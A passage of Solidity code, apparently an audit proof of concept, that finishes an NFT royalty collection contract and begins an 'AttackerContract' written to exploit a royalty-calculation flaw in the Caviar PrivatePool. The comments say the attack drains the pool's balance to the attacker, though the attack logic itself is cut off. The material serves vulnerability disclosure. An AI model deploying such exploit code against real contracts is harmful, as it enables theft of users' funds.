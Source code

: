 ```solidity
     * @param _tokenId The token whose royalty data will be changed.
     * @param _royaltyReceiver The new royalty receiver address (can remain the same).
     * @param _royaltyFeeNumerator The new royalty fee basis points (can remain the same).
     */
    function setTokenRoyalty(
        uint256 _tokenId,
        address _royaltyReceiver,
        uint96 _royaltyFeeNumerator
    ) external onlyRoyaltyReceiver(_tokenId) {
        _setTokenRoyalty(_tokenId, _royaltyReceiver, _royaltyFeeNumerator);
    }

    /**
     * @notice Withdraw all revenue from the NFT sales.
     * @dev This function is only callable by the owner/DAO behind the project.
     */
    function withdraw() external onlyOwner {
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success);
    }
}

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract AttackerContract is Ownable, ERC721TokenReceiver {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

    /// @notice The Caviar private pool that incorrectly calculates royalties.
    PrivatePool public vulnerablePrivatePool;

    /// @notice The target token ID that will be used to perform the exploit.
    uint256 public tokenId;

    /// @notice Needed to reset state after attack is performed.
    uint256 public originalFee;

    /// @notice Helper flags needed to navigate the attack path in the receive() function.
    bool public f1;
    bool public f2;

    /**
     * @param _vulnerablePrivatePool The address of the targeted Caviar private pool.
     * @param _nft The NFT collection address.
     * @param _tokenId The specific NFT that will be used for the exploit.
     */
    constructor(
        address payable _vulnerablePrivatePool,
        address _nft,
        uint256 _tokenId
    ) {
        nft = ERC721RoyaltyCollection(_nft);
        vulnerablePrivatePool = PrivatePool(_vulnerablePrivatePool);

        tokenId = _tokenId;
    }

    /**
     * @notice Executes the attack. Drains the base token balance of the private pool and sends it to the owner.
```